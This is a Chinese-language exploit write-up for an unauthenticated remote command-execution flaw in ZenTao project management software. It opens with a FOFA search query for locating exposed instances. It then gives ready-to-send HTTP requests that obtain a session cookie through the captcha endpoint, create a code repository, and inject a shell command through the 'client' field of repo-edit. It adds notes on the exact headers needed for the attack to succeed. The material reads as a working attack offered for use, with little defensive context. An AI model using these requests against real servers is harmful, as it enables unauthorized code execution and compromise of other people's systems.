 # 禅道未授权命令执行漏洞
## 资产搜索
fofa app="易软天创-禅道系统"	title="用户登录 - 禅道"
### 请求验证码
`GET /zentao/misc-captcha-user.html`  
记下来Cookie里面的zentaosid
![](img/misc-captcha-user.png)
### 建立代码库
（感觉是为了防止不存在代码库，存在的话不创建也行） 
⚠️重要：  
1. header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）   
2. data里面的name值是一个随机数，保证没有已存在的  
```http
POST /zentao/repo-create.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 113

product%5B%5D=25053&SCM=Gitlab&name={随机数}&path=&encoding=utf-8&client=&account=&password=&encrypt=base64&desc=&uid=
``` 
![](img/repo-create.png)
## 命令执行
⚠️重要：  
header里面，Content-Type，Cookie，Referer，X-Requested-With四个参数必须存在，Cookie里面的id必须是请求过验证码的id，Referer必须写正确（带端口的完整路径）    
```http
POST /zentao/repo-edit-10000-10000.html HTTP/1.1
Host: x.x.x.x:xxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: zentaosid={上面获取的id}; lang=zh-cn; device=desktop; theme=default; windowWidth=1920; windowHeight=944
Referer: http://{ip:port}/zentao/repo-edit-1-0.html
X-Requested-With: XMLHttpRequest
Content-Length: 26

SCM=Subversion&client=`id`
```
![](img/rce.png)